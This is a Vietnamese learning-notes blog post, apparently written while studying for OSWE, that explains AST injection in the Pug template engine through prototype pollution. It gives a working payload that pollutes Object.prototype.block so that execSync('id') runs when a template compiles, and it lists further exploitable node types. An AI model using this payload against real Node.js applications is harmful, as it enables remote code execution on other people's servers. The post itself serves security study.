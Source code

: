 ```yaml
---
title: "AST Injection"
date: 2022-11-06T10:55:32+07:00
draft: false
tag: ["OSWE"]
---
```

<h1>Chỉ là note lại những gì đã học được</h1>
<p align="center">
<a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fn00b-bot.com%2Fast-injection%2F&count_bg=%2379C83D&title_bg=%23555555&icon=&icon_color=%23E7E7E7&title=hits&edge_flat=false"/></a>
</p>
<!--more-->
Trong khi đang speedrun OSWE đến những chương cuối của OSWE thì tôi gặp dạng bài Prototype Pollution (dạng bài mà tôi trước giờ chỉ copy & paste payload như 1 thằng n00b , anyway bây giờ vẫn là 1 thằng n00b) và nếu muốn rõ về cách payload hoạt động như thế nào thì tôi lại phải đi học Javascript. Một ngôn ngữ tôi không thích lắm vì logic ảo ma của nó nhưng biết sao giờ chẳng lẽ lại bỏ qua chương này và thế là lại phải học thôi !!

![](contrai.gif)

## AST là gì
Hiểu đơn giản AST (Abstract Syntax Tree) là cây biểu diễn cấu trúc cú pháp của mã nguồn của một 
ngôn ngữ nhất định ( [Chi tiết](https://www.twilio.com/blog/abstract-syntax-trees) )
![](ast.png)
AST được sử dụng thường xuyên trong JS ví dụ như: template engines, typescript, ... ( tôi cũng không rõ dùng ở typescript chỗ nào vì đọc nó bảo thế thì list nhìn cho nó dài thôi 🙃). Trong bài này thì ta tập trung vào template engines. Flow chung cho template engines như ảnh dưới đây:
![](template.jpg)

## Pug Template Engines
Trong bàhi này ta sẽ đi vào cụ thể một template engines đó là Pug vì đây là một trong nững template engines khá phổ biến của JS. Flow của Pug như sau:
![](pugast.jpg)
Đầu tiên chúng ta xem cách khao báo để tạo ra một template.
```
const pug = require('pug');

// Compile the source code
const compiledFunction = pug.compileFile('template.pug');

// Render a set of data
console.log(compiledFunction({
  name: 'Timothy'
}));
// "<p>Timothy's Pug source code!</p>"

// Render another set of data
console.log(compiledFunction({
  name: 'Forbes'
}));
// "<p>Forbes's Pug source code!</p>"
```
Ở đây nhận tham số đầu vào là một file có chứa các cú pháp của Pug. Sau khi xem xét qua hàm thì tôi tóm gọn lại là flow như sau **compileFile => handleTemplateCache => compile** nên chúng ta sẽ bắt đầu từ hàm compile(/pug/lib/index.js).

Trong hàm **compile** sẽ gọi đến hàm **compileBody** (hàm này trả về 1 object có thuộc tính *body* chứa code JS được tạo ra)
```
function compileBody(str, options) {
...
  var ast = load.string(str, { //magic })
...
  return {body: js, dependencies: dependencies};
}
```
Tiếp tục gọi đến hàm **load** và 1 cách magic ta có được giá trị AST. Sau khi có AST thì nó được truyền vào hàm **generateCode** (như cái tên của nó hàm này trả về code JS được tạo bởi AST)
```
var js = (findReplacementFunc(plugins, 'generateCode') || generateCode)(ast, {
    pretty: options.pretty,
    compileDebug: options.compileDebug,
    doctype: options.doctype,
    inlineRuntimeFunctions: options.inlineRuntimeFunctions,
    globals: options.globals,
    self: options.self,
    includeSources: options.includeSources ? debug_sources : false,
    templateName: options.templateName,
  });
```
Lần mò vào hàm **generateCode** thì hàm này tạo ra một đối tượng **Compiler** và gọi đến phương thức **compile**
```
function generateCode(ast, options) {
  return new Compiler(ast, options).compile();
}
=>
  compile: function() {
...
    this.visit(this.node); // code được gen và đẩy vào buff ở đây
...
```
Từ đây tất cả logic tạo code js từ AST đều ở đây.Ta sẽ phân tích 1 ví dụ như sau: 
```
const pug = require('pug');
compiledFunction = pug.compile("nothing",{debug:true})
```
Bây giờ giá trị của AST sẽ là:

![](astvalue.png)

Flow cơ bản của quá trình này là 

```
 visit: function(node, parent) {
    var debug = this.debug;

    if (!node) { 
        ... 
    }

    if (debug && node.debug !== false && node.type !== 'Block') {
      if (node.line) {
        var js = ';pug_debug_line = ' + node.line;
        if (node.filename)
          js += ';pug_debug_filename = ' + stringify(node.filename);
        this.buf.push(js + ';');
      }
    }

    if (!this['visit' + node.type]) { // Kiểm tra valid type của node
    ...
    }

    this.visitNode(node); // gọi đến hàm gen code với các type tương ứng
  }
```
Một số hàm gen code với các type
```
  visitText: function(text) {
    this.buffer(text.val);
  }
-------------------------------------------------------
  visitComment: function(comment) {
    if (!comment.buffer) return;
    if (this.pp) this.prettyIndent(1, true);
    this.buffer('<!--' + comment.val + '-->');
  }
-------------------------------------------------------
  visitCode: function(code) {
    // Wrap code blocks with {}.
    // we only wrap unbuffered code blocks ATM
    // since they are usually flow control

    // Buffer code
    if (code.buffer) {
      var val = code.val.trim();
      val = 'null == (pug_interp = ' + val + ') ? "" : pug_interp';
      if (code.mustEscape !== false)
        val = this.runtime('escape') + '(' + val + ')';
      this.bufferExpression(val);
    } else {
      this.buf.push(code.val);
    }

    // Block support
    if (code.block) {
      if (!code.buffer) this.buf.push('{');
      this.visit(code.block, code);
      if (!code.buffer) this.buf.push('}');
    }
  },
 
```

## Exp
Payload Prototype Injection
```
const pug = require('pug');
Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};
pug.compile('h1= msg', {debug:true});
```
Template Function được trả về đã được injection
```
Compiled Function:

  function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;
      var locals_for_with = (locals || {});
      
      (function (console, msg, process) {
        ;pug_debug_line = 1;
  pug_html = pug_html + "\u003Ch1\u003E";
  ;pug_debug_line = 1;
  pug_html = pug_html + (pug.escape(null == (pug_interp = msg) ? "" : pug_interp));
  ;pug_debug_line = console.log(process.mainModule.require('child_process').execSync('id').toString());
  pug_html = pug_html + "ndefine\u003C\u002Fh1\u003E";
      }.call(this, "console" in locals_for_with ?
          locals_for_with.console :
          typeof console !== 'undefined' ? console : undefined, "msg" in locals_for_with ?
          locals_for_with.msg :
          typeof msg !== 'undefined' ? msg : undefined, "process" in locals_for_with ?
          locals_for_with.process :
          typeof process !== 'undefined' ? process : undefined));
      ;} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
```

Lúc này trong đầu mình có câu hỏi tại sao lại là type Text chứ không phải các type khác và liệu có type nào còn có thể khai thác được không.
Sau 1 hồi debug thì mình tìm ra được các type có thể lợi dụng cần phải thỏa mãn 2 điều kiện:
* Có hàm visit*Type* (visitCode, visitTag, ..)
* Thuộc các case sau để tránh gọi đến hàm walkAST 1 lần nữa và mình tìm thêm được 1 số type hợp lệ.
```
    case 'Attrs':
    case 'BlockComment': // work
    case 'Comment': // work
    case 'Doctype': // work
    case 'IncludeFilter':
    case 'MixinBlock': // work
    case 'YieldBlock': // work 
    case 'Text': // 
      break;
```
Liệu payload trên có hoạt động với mọi template không? => Câu trả lời là không nếu template không tham chiếu đến giá trị nhận từ argument.( điều này khó xảy ra vì nếu không tham chiếu đến đến các biến được truyền vào thì đã không sử dụng template từ ban đầu)
Ví dụ về một template mà payload trên không hoạt động.
```
pug.compile('h1', {debug:true})
----------------------------------
Compiled Function:

  function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;pug_debug_line = 1;
  pug_html = pug_html + "\u003Ch1\u003E\u003C\u002Fh1\u003E";} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
```

Tuy nhiên mình phát hiện ngay cả trong trường hợp trên, ta vẫn có thể khai thác được cũng bằng Prototype Pollution và mình để tự bạn tìm ra câu trả lời cho trường hợp trên. (dễ quá nó chán lắm 😂😂)
![](tem.png)